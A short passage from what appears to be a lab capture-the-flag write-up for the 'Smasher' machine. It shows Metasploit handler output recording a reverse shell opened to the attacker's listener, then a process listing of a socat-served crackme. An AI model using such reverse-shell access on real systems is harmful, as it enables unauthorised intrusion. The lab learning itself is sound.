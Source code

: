 If you check your multi handler, you will see new session

``` bash

[*] Sending stage (38 bytes) to 10.10.10.89
[*] Command shell session 1 opened (10.10.13.238:4444 -> 10.10.10.89:36424) at 2018-10-01 18:07:20 +0200
```

![](/images/smasher-2018-11-22/2025-01-18_19-17-56_image.png)

# Conclusion

That\'s it. Now tha you have a shell it\'s time to move onto a second
stage, which is fighting this guy

``` bash

ps aux | grep crackme.py
smasher    714  0.0  0.1  24364  1784 ?        S    16:52   0:00 socat TCP-LISTEN:1337,reuseaddr,fork,bind=127.0.0.1 EXEC:/usr/bin/python /home/smasher/crackme.py
```
